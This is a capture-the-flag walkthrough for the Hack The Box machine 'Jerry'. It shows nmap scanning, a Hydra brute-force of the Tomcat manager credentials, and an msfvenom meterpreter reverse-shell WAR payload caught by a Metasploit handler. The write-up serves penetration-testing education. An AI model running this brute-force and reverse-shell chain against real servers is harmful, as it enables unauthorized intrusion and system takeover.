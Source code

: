 # Jerry

Jerry is a machine that uses `Apache Tomcat`, an open-source application designed to serve web pages developed in `Java`. We are going to exploit this machine using `Metasploit`.

First, let's confirm we have a connection to the target machine by using the `ping` tool, and then check for running applications using `nmap`.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

You can use the `-sC` switch for scripts to identify potential vulnerabilities, configuration issues, and additional service details. The `-sV` switch is for service version detection, which will send probes to the ports and compare them against a database.

If we type the web page in our browser, we access the Tomcat webpage. Make sure to add `:8080` at the end to specify the correct port running on the web server.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

If we click the `Server Status` page, we get prompted to add credentials. In this case, `Admin:Admin` works, but it takes us to a web page that contains no information beneficial to our pentest.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We can try to click `Manager App` or `Host Manager` and utilize the same credentials, but that does not work, as seen by the `403` status code.

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

For a fun exercise, you can run `Burp Suite` as a proxy and catch the `HTTP GET` request. Inside the request will be the credentials `Admin:Admin` you entered in the `Authorization` header, encoded as base64. If you decode it in `Burp` as base64, you will see `Admin:Admin`. Pretty cool.

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Obviously, this website already uses weak credentials, so we are going to try to brute force the password on this website using a tool called `Hydra`.



Clone a list of your choice, Daniel Miessler has some amazing content.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Let's identify a list of passwords commonly used for Tomcat applications.

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Once we have identified the list we want to use, run `hydra -h` to get a list of options available from the tool.

We can use the `-C` switch to specify the brute force password list we would like to use with the tool.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Run the command, and we identify credentials that work with the `/manager/html` page. It is odd that Hydra determined `Admin:Admin` works, as it actually does not. Anyways...it looks like `tomcat:s3cret` will work. Try these credentials on the `Manager App` link on the website.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

The page is a directory of war files. We can try to deploy our own war file to get the application to execute code of our choice. `Msfvenom` is the tool of choice here, as it allows us to build reverse shell payloads using different file types. Run the following commands to build the malicious payload.

```shell
msfvenom -l payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=9001 -f war -o tomcat.war
```

The malicious file is now developed. Next, we can use the `Metasploit` framework to set up a reverse shell listener on our machine, so when the malicious war file is downloaded, we can catch and enter into the shell.

```shell
msfdb run
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpretor/reverse_tcp
msf6 > set LHOST tun0
msf6 > set LPORT 9001
msf6 > exploit -j
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Deploy the war file in the `Manager App`.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Unzip the folder in your directory, and grab the file ending in `.jsp`. Add the name of this file to the end of the URL in your web browser. This will execute your war file, and the reverse shell listening on your machine should catch the connection.

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell
10.10.10.95:8080/tomcat1/dnawdram.jsp
```

Go back to the `Metasploit` listener and check if a session has started.&#x20;

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

You can run the following commands to find the flag:

```shell
shell
whoami
dir
cd Administrator
cd Desktop
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Congrats! You have successfully completed Jerry.&#x20;

References:

{% embed url="https://www.youtube.com/watch?v=PJeBIey8gc4" %}
